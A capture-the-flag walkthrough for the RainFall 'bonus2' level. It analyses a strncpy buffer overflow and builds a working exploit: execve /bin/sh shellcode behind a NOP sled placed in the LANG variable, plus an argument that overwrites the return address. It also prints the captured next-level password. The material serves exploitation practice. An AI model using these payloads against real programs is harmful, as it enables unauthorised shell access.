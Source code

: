 # Bonus2 Walkthrough

## Analyzing the Program with GDB or Ghidra

1. **Disassemble the program functions**:
    We can see many functions : 
    - `greetuser` : if language catch up an int, we'll get the greetings either in finnish, dutch or english.
    - `strncpy` : ...
    - `getenv` : we'll have to change the `LANG` on the env. 

## Running the program

1. **Execute the Program with the Correct Input**:  
    Before running the program : 
    ```bash
    export LANG=fi
    [...]
    export LANG=nl
    ```
    We ran the program with the following command:  
    ```bash
    bonus2@RainFall:~$ ./bonus2 wnaseevegieoqhgoeiqhgqoeighoiqoejgpojeqgeqj hello
    Hyvää päivää wnaseevegieoqhgoeiqhgqoeighoiqoejgpojeqghello
    ```

    We can see that after 40 bytes, it concatenates the two strings in args. So we know that we'll have to overwrite to add something in the second args.

    we'll have to know where to find the address of getenv: 
    ```bash
    0x080485a6 <+125>:   call   0x8048380 <getenv@plt>
    run $(python -c 'print "A" * 40')
    x/20s $esp <-----> take one of the address that is available to reach an address inside NOP SLED Instruction
    [OR]
    x/20s *((char**)environ)
    0xbfffff2c = LANG=nl
    ```

    - Then, i'll have to find the offset of the second one, and it depends of the LANG var : 

    ```bash
    export LANG=nl <-----> offset 23
    gdb ./bonus2
    run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
    Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

    Program received signal SIGSEGV, Segmentation fault.
    0x38614137 in ?? ()              // offset : 23
    ```

    
2. **Trying to overflow the RET value**
    - shellcode
    - put the shellcode in the env LANG, 'nl' for the memcmp, '\x90' for the `nop sled` meaning to find the shellcode easily.
    ```bash
    export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
    ```
    - then send args :
    ```bash
    bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\x2c\xff\xff\xbf"')
    Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
    $ cat /home/user/bonus3/.pass
    71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
    ```

## Moving to bonus3

1. **Swith User to bonus3**:
    Run ```su bonus3```

2. **Authenticate with the Password**:
    We used the password we found.
